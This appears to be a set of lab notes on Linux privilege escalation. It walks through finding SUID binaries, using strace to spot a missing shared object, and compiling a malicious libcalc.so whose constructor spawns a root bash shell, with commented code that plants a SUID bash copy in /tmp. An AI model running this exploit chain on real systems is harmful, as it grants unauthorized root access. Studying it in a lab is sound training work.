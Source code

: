 When a program is executed, it will try to load the shared objects it requires.

By using a program called strace , we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

1. Find SUID/SGID files on the target:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so==

The suid-so file should execute with root user permissions.

2. Run strace on the SUID file:
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
==open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)==

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

3. Create the /home/user/.config directory.

4. Create the file libcalc.c with the following contents:

==libcalc.c==

---

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 setuid(0);
 system("/bin/bash -p");
 # system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


---

5. Compile libcalc.c into /home/user/.config/libcalc.so:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

6. Run the SUID executable to get a root shell:

```
/usr/local/bin/suid-so
```

Calculating something, please wait…

```
id
```

uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...
